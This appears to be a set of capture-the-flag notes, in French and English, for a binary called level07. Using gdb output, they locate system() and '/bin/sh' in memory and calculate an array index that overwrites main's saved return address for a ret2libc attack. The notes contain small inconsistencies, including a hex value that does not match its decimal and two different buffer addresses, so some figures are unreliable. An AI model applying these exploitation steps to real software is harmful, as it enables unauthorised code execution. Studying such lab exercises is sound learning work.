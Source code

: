 index overflow
pas d'utilisation possible de l'env car clear au début du code !!


### Find occurence of /bin/sh

(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 

system address : 0xf7e6aed0
bin/sh address : 0xf7f897ec

### Find EIP of main function
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 

=> eip address 0xffffd70c de la fonction main
0x8048741
### Find address of tab[100]

address is 0xffffcd24

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000

```

### Calculate tab index to overwrite

interval between eip and tab 0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
On divise par 4 car index d'int donc 4 bytes

problème : 114 est divisible par 3

### 

















We get `0xf7e6aed0` and `0xf7f897ec`, which we'll set at `eip` and `eip+8`.
